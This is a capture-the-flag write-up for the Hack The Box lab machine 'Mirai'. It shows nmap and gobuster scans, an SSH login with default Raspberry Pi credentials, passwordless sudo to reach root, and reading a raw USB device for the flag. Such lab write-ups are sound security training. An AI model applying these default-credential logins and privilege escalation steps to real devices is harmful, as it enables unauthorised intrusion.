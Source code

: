 # MIRAI

## ENUMERATION

Doing nmap scan gives 3 open ports

```
┌──(kali㉿kali)-[~/Downloads/hackthebox/mirai]
└─$ nmap 10.10.10.48
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-06 07:29 EDT
Nmap scan report for 10.10.10.48
Host is up (0.21s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 32.10 seconds
                                                                                 
┌──(kali㉿kali)-[~/Downloads/hackthebox/mirai]
└─$ nmap 10.10.10.48 -p 22,53,80 -A
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-06 07:30 EDT
Nmap scan report for 10.10.10.48
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp open  domain  dnsmasq 2.76
| dns-nsid: 
|_  bind.version: dnsmasq-2.76
80/tcp open  http    lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.76 seconds
```

Result of gobuster scan 

```
┌──(kali㉿kali)-[~/Downloads/hackthebox/mirai]
└─$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.48 -q -t 100 
/admin                (Status: 301) [Size: 0] [--> http://10.10.10.48/admin/]
/swfobject.js         (Status: 200) [Size: 61]   
```

We need a password to login into pi-hole
I searched for default credentials on google and found this ```you could try the default username "pi" with password "raspberry".``` on this [link](https://discourse.pi-hole.net/t/password-for-pre-configured-pi-hole/13629/3)

## SSH

We ssh using the these creds since we are not able to login in the pi-hole web interface

And we are in

```
pi@raspberrypi:~ $ cd Desktop
pi@raspberrypi:~/Desktop $ ls
Plex  user.txt
pi@raspberrypi:~/Desktop $ cat user.txt
```

## USER --> ROOT

I used the ```sudo -l``` to check what our user was allowed to run as sudo

```
pi@raspberrypi:~ $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
pi@raspberrypi:~ $ sudo /bin/bash
root@raspberrypi:/home/pi# whoami
root
root@raspberrypi:/home/pi# cd /root
root@raspberrypi:~# ls
root.txt
root@raspberrypi:~# cat root.txt
I lost my original root.txt! I think I may have a backup on my USB stick...
```
Offcourse it wouldn't be this easy

## ROOT.TXT

I googled the directory for usb in kali and found this ```# mount /dev/sdc1 /media/usb-drive/ ``` at this [website](https://linuxconfig.org/how-to-mount-usb-drive-on-kali-linux/)

Now we know that the it will be in the ```/dev``` directory

```
root@raspberrypi:/dev# ls -l | grep sdc
root@raspberrypi:/dev# ls -l | grep sd
brw-rw----  1 root disk      8,   0 Aug  6 11:30 sda
brw-rw----  1 root disk      8,   1 Aug  6 11:30 sda1
brw-rw----  1 root disk      8,   2 Aug  6 11:30 sda2
brw-rw----  1 root disk      8,  16 Aug  6 11:30 sdb
root@raspberrypi:/dev# cat sdb
```
At the end of this file we find our flag

